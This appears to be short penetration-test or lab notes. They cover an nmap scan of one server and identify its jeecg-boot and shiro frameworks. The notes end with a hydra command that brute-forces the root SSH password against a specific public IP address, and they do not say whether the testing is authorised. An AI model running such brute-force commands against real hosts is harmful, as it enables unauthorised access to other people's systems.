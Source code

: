 # antgst

## enumeration

the output port following the nmap scan is:

```bash
22/tcp    open  ssh                   OpenSSH 7.4 (protocol 2.0)
80/tcp    open  http                  nginx 1.20.2
443/tcp   open  ssl/http              nginx 1.20.2
```

framework use the `jeecg-boot` version `2.6.0` and `shiro` version `1.7.1`. The `jeecg-boot` is a popular java framework for building web applications. The `shiro` is a powerful and flexible open-source security framework that performs authentication, authorization, cryptography, and session management.

### ssh

the root user is open the password login, so we maybe can brute force the password.

## exploitation

### ssh

we can use the `hydra` to brute force the password. the sever ip is `161.117.236.154` and the username is `root`. the password list is `/usr/share/wordlists/rockyou.txt`.

```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt -v -t 10 -o results.txt 161.117.236.154 ssh
```
